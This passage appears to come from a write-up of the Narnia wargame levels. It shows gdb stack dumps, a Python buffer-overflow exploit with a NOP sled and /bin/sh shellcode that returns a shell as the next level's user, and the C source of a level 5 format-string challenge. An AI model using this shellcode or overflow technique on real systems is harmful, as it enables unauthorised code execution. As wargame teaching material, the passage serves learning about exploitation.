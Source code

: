 ```
0xffffd620:     0x00000000      0xffffd6b4      0xffffd6c0      0xf7fd3000
0xffffd630:     0x00000000      0xffffd61c      0xffffd6c0      0x00000000
0xffffd640:     0x0804824c      0xf7fceff4      0x00000000      0x00000000
0xffffd650:     0x00000000      0x7d265f34      0x4a22fb24      0x00000000
0xffffd660:     0x00000000      0x00000000      0x00000002      0x08048390
(gdb) i f
Stack level 0, frame at 0xffffd620:
 eip = 0x80484fa in main; saved eip 0x41414141
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
 ebp at 0xffffd618, edi at 0xffffd614, eip at 0xffffd61c
```

Our input starts at `0xffffd50c` and the return address is at `0xffffd61c`. Thus, a good value to overwrite the return address with is `0xffffd596`:

```
narnia4@melinda:/narnia$ cd /tmp/doge4
narnia4@melinda:/tmp/doge4$ vim input.py 
narnia4@melinda:/tmp/doge4$ cat input.py 
shellcode = ('\x90'*227 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69' +
             '\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' +
             '\x41'*20 + '\x96\xd5\xff\xff')
print shellcode
narnia4@melinda:/tmp/doge4$ /narnia/narnia4 $(python input.py)
$ whoami
narnia5
```

Level 5:
--------

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){
    int i = 1;
    char buffer[64];

    snprintf(buffer, sizeof buffer, argv[1]);
    buffer[sizeof (buffer) - 1] = 0;
    printf("Change i's value from 1 -> 500. ");

    if(i==500){
        printf("GOOD\n");
        system("/bin/sh");
    }

    printf("No way...let me give you a hint!\n");
    printf("buffer : [%s] (%d)\n", buffer, strlen(buffer));
    printf ("i = %d (%p)\n", i, &i);
    return 0;
}
```
